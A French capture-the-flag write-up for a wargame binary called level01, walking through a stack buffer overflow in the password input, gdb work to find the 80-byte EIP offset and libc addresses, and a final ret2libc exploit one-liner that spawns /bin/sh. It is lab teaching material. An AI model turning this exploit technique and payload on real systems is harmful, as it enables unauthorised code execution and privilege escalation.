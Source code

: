 Le binaire level01 est composé de 3 fonction et lit 2 fois sur l'entrée standard via **fgets**:

<pre>
verify_user_name
verify_user_pass
main
</pre>

Aucune de c'est fonction n'appelle la fonction system ou ne créé de shell, mais la fonction **main** appelle succéssivement la fonction **verify_user_name** et **verify_user_pass**.

Chaque fonction **verify_** compare les strings récupérer avec:

<pre>
dat_wil => verify_user_name
admin	=> verify_user_pass
</pre>

le **buffer static** qui stock le **pass** est nettement inférieur a la taille de la string récupérer dans le second **fgets()**, On peux Overflow la stack grace au ce buffer.


On cherche si l'on peux écraser **EIP** et si oui à partir de quel octets et combien d'octect en plus nous pouvons écrire:
<pre>
b *main + 169	// Apres le second fgets
run
dat_will		// 1er string
AAAAAAAA		// 2eme string

i f

Stack level 0, frame at 0xffffd720:
 eip = 0x8048579 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args: 
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd710, ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c

i r

eax            0xffffd6cc       -10548

addr de saved EIP => 0xffffd71c
addr du buffer    => 0xffffd6cc

0xffffd71c - 0xffffd6cc => 0x50 => 80

offset buffer/EIP 80 oct
</pre>

Nous écrasons **EIP** à partir de l'octet 80 et notre buffer fait un taille de 100octet.

Nous pouvons éffectuer un **RET2LIBC**:

<pre>
(gdb) b *main
Breakpoint 1 at 0x80484d0
(gdb) r
Starting program: /home/users/level01/level01

Breakpoint 1, 0x080484d0 in main ()
(gdb) info proc map
process 1815
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
        						...
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
								...
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2b000,0xf7e2c000,"/bin/sh"
Pattern not found.
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.

p system
$1 = {text variable, no debug info} 0xf7e6aed0 system

system 		=> 0xf7e6aed0
"/bin/sh"	=> 0xf7f897ec
</pre>

Nous pouvons donc formater notre exploit de la façon suivante:
<pre>
./level01
"dat_will"
"A*80 + &system + DUMM + &(/bin/sh)" 
</pre>

# EXPLOIT
<pre>
SHELL=/bin/sh

(python -c "print 'dat_wil\n' + 'A'*80 + '\xd0\xae\xe6\xf7' + 'DUMM' + '\xec\x97\xf8\xf7'";cat) | ./level01
</pre>